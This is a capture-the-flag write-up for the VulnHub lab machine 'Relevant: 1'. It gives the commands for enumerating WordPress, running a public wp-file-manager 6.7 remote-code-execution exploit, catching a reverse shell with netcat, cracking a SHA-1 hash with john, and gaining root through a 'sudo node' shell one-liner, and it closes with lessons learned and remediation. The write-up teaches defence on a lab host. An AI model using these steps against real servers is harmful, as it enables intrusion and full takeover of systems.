




# Relevant: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.161 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | via `sudo node` privilege escalation |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/relevant-1,694/) |

## Attack Summary

nmap → WordPress → dirsearch → nmap WP scripts → wp-file-manager 6.7 0day → PHP webshell → user h4x0r → wp-config.php → hidden `...` dir → note.txt SHA-1 hash → hashes.com → SSH as news → `sudo node` GTFOBins → root

## Methodology

1. Network discovery and port scan
2. WordPress enumeration (dirsearch, nmap scripts)
3. Exploit wp-file-manager 6.7 unauthenticated RCE
4. Credential discovery via hidden directory
5. Privilege escalation via sudo node

---

## Step 1: Network Discovery

```bash
netdiscover -i eth1
echo "192.168.10.161 relevant.local" >> /etc/hosts
nmap -A -p- 192.168.10.161
```

WordPress service found on port 80.


---

## Step 2: WordPress Enumeration

```bash
dirsearch -u http://192.168.10.161 -e php,txt,html
```

WordPress installation detected. Run nmap WordPress scripts for plugin detection:

```bash
nmap --script http-wordpress-enum 192.168.10.161
```

Plugin identified: **wp-file-manager 6.7** (unauthenticated RCE).

The web page also exposes credentials in a public leak and a QR code for a 2FA secret — these lead to a dead end (SSH disabled for that account).



---

## Step 3: wp-file-manager Exploit

Use the public 0day exploit:

```bash
git clone https://github.com/w4fz5uck5/wp-file-manager-0day
cd wp-file-manager-0day
python3 exploit.py http://192.168.10.161
```

This achieves code execution on the server. Upload a PHP reverse shell for a stable session:

```bash
# Start listener
nc -lvp 4444

# Upload shell via exploit or file manager
# Trigger shell via browser
```

Shell received as **www-data** / **h4x0r**.



---

## Step 4: Credential Discovery

Check WordPress configuration:

```bash
cat /var/www/html/wp-config.php
# DB password not reusable
```

Find the hidden directory `...` (three dots) in the user's home:

```bash
ls -la /home/h4x0r/
cd '/home/h4x0r/...'
cat note.txt
# Contains a SHA-1 hash
```

Crack the SHA-1 hash at hashes.com or with john:

```bash
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Authenticate as user **news**:

```bash
su news
# or SSH with recovered password
```



---

## Step 5: Privilege Escalation via sudo node

```bash
sudo -l
# User news may run: /usr/bin/node
```

Use GTFOBins technique for node:

```bash
sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
id
# uid=0(root)
cat /root/root.txt
```



---

## Lessons Learned

1. **wp-file-manager 6.7 unauthenticated RCE** — outdated plugins with known CVEs are trivially exploitable; keep WordPress and plugins updated
2. **Credentials leaked publicly** — periodic OSINT monitoring catches leaked credentials before attackers do
3. **Hidden directories with sensitive data** — obscurity through unusual directory names (e.g., `...`) is not security
4. **SHA-1 for password storage** — SHA-1 is not a password hash; use bcrypt/argon2
5. **sudo node without restrictions** — `node -e` spawns a shell; never give unrestricted sudo to scripting runtimes

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Outdated wp-file-manager | Update to 6.9+ (patched); apply WAF rules |
| Leaked credentials | Monitor HaveIBeenPwned/GitGuardian; rotate on exposure |
| SHA-1 password hashing | Migrate to bcrypt with cost factor ≥ 12 |
| `sudo node` | Remove from sudoers or restrict with `NOEXEC` |
| World-readable /home hidden dirs | Enforce `chmod 700` on all user home directories |
